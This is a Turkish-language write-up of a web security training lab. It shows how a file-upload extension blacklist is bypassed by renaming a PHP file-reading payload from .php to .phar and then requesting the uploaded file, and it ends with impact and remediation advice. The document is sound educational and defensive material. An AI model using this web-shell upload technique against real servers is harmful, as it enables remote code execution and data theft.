






# Web shell upload via extension blacklist bypass

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Bu labda avatar upload fonksiyonu dosya uzantısı için blacklist kontrolü kullanıyor. Doğrudan `.php` uzantılı web shell yükleme denemesi `Sorry, php files are not allowed` hatasıyla reddedildi. Ancak uygulama yalnızca belirli uzantıları engellediği için PHP tarafından çalıştırılabilen alternatif bir uzantı olan `.phar` kabul edildi. Aynı PHP payload'ı `test.phar` adıyla yüklendiğinde sunucu dosyayı çalıştırdı ve Carlos kullanıcısının secret değeri okunabildi.

## 3. Kullanılan Bilgiler

**Username:** `wiener`

**Password:** `peter`

**İlk denenen dosya:** `test.php`

**Bypass dosyası:** `test.phar`

**Payload:**

```php
<?php
echo file_get_contents('/home/carlos/secret');
?>
```

**Bypass edilen kontrol:**

```text
.php extension blacklist
```

## 4. Exploitation Steps

1. Verilen bilgilerle uygulamaya giriş yaptım ve `/my-account` sayfasındaki avatar upload alanına geldim.


2. Dosya seçim penceresinden PHP payload içeren `test.php` dosyasını seçtim.


3. Dosyanın içinde Carlos kullanıcısının secret dosyasını okuyan PHP payload'ı vardı.

```php
<?php
echo file_get_contents('/home/carlos/secret');
?>
```


4. `test.php` dosyasını avatar olarak yüklemeyi denedim.


5. Yüklenen dosyayı çağırmak için avatar görselini yeni sekmede açmayı denedim.



6. Burp Suite üzerinde upload request ve response incelendiğinde uygulamanın `.php` uzantılı dosyayı blacklist nedeniyle reddettiği görüldü.

```text
Sorry, php files are not allowed
```



7. Aynı PHP payload'ı bu kez alternatif PHP uzantısı olan `.phar` ile gönderdim. Request içindeki `filename` değeri `test.phar` olacak şekilde değiştirildi ve uygulama dosyayı kabul etti.

```http
filename="test.phar"
```



8. My Account sayfasındaki kırık avatar görselini yeni sekmede açarak yüklenen dosyanın direkt URL'ine gittim.


9. `/files/avatars/test.phar` çağrıldığında PHP payload çalıştı ve response body içinde Carlos kullanıcısının secret değeri görüntülendi.

```http
GET /files/avatars/test.phar HTTP/2
```



10. Elde ettiğim secret değerini lab çözüm ekranına gönderdim.



11. Secret doğru olduğu için lab başarıyla çözüldü.



## 5. Impact

Saldırgan, yalnızca bilinen birkaç uzantıyı engelleyen blacklist kontrolünü alternatif çalıştırılabilir uzantılarla bypass edebilir. Sunucu bu dosyaları PHP olarak yorumluyorsa saldırgan web shell yükleyerek remote code execution elde edebilir, hassas dosyaları okuyabilir ve uygulama sunucusu üzerinde daha geniş erişim kazanabilir.

## 6. Remediation

Dosya yükleme kontrollerinde blacklist yaklaşımı yerine allowlist kullanılmalıdır. Uygulama yalnızca gerçekten ihtiyaç duyulan güvenli dosya uzantılarını ve MIME tiplerini kabul etmeli, dosya içeriğini sunucu tarafında doğrulamalı ve yüklenen dosyaları güvenli rastgele isimlerle yeniden adlandırmalıdır. Upload dizininde script execution kapatılmalı, dosyalar mümkünse web root dışında saklanmalı ve `.php`, `.phar`, `.phtml`, `.php5` gibi çalıştırılabilir uzantılar kesin olarak engellenmelidir.
